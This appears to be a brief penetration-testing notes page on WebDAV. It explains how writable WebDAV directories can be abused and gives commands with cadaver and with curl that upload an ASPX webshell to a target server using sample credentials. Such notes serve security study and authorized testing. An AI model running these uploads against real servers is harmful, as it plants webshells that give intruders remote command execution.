```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# WebDAV

WebDAV extends the functionality of the HTTP protocol to allow **remote file management over the web**. It introduces additional HTTP methods that enable tasks such as file uploads, downloads, edits, and deletions directly on a web server, effectively turning the server into a remote file system. Within penetration testing, WebDAV is of particular interest because misconfigurations often expose writable directories that attackers can exploit to upload and execute malicious files, thereby escalating access.

{% tabs %}
{% tab title="Cadaver" %}
[Cadaver](https://github.com/notroj/cadaver) is a command-line WebDAV client designed to interact with WebDAV-enabled servers. It provides a simple interface for performing operations such as browsing directories, transferring files, and modifying resources remotely.

{% code overflow="wrap" %}
```bash
$ cadaver http://target
Authentication required for target on server `x7331':
Username: x7331
Password:
# Upload a webshell on the target server
dav:/> put /usr/share/webshells/aspx/cmdasp.aspx cmdasp.aspx
```
{% endcode %}
{% endtab %}

{% tab title="curl" %}
Files can also be uploaded with a `PUT` request using `curl`:

{% code overflow="wrap" %}
```bash
curl -T '/home/kali/shell.aspx' 'http://target/' -u x7331:Pass123!
```
{% endcode %}
{% endtab %}
{% endtabs %}
